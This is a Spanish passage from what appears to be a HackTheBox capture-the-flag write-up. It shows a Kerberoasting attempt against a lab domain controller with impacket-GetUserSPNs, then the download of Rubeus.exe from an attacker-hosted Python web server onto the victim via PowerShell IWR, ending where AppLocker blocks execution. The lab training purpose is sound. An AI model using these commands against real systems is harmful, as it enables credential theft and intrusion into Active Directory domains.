 ## Initial Access

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Dado que hemos visto que existe un usuario susceptible al _**Kerberoasting Attack**_, procederemos a intentar a realizar el ataque a través de la herramienta _**GetUserSPNs**_, verificamos que no nos reporta ningún resultado.

Esto es debido seguramente a que el Kerberos no se encuentra expuesto, deberemos de buscar otra manera de explotar este ataque.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.103 htb.local/amanda -debug 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/3402_vmware_VJeZeKHusy.png" alt=""><figcaption></figcaption></figure>

### Kerberoasting Attack (Rubeus)

Dado que disponemos de acceso a la máquina víctima (Domain Controller), podemos de probar de realizar el _**Kerberoasting Attack**_ a través de la herramienta de _**Rubeus.exe**_.

Procederemos  a intentar subir el binairo del _**Rubeus.exe**_ y en nuestro caso no nos permite la subida directamente con el comando "upload" que nos poporciona _**evil-winrm**_.

<figure><img src="../../../../../.gitbook/assets/3403_vmware_dHjyMAtZLf.png" alt=""><figcaption></figcaption></figure>

Probaremos de levantar un servidor web con Python y a descargar el archivo a través de IWR, verificamos que el binario se ha descargado correctamente en el equipo víctima.

```bash
python3 -m http.server 80

IWR -Uri http://10.10.16.5/Rubeus.exe -OutFile Rubeus.exe
```

<figure><img src="../../../../../.gitbook/assets/3404_vmware_VEiht0cyON.png" alt=""><figcaption></figcaption></figure>

Al intentar ejecutar el binario en la ruta (C:\Temp), nos aparece un eror indicando que se ha bloqueado la ejecución debido a una política, muy probablemente debido al AppLocker.
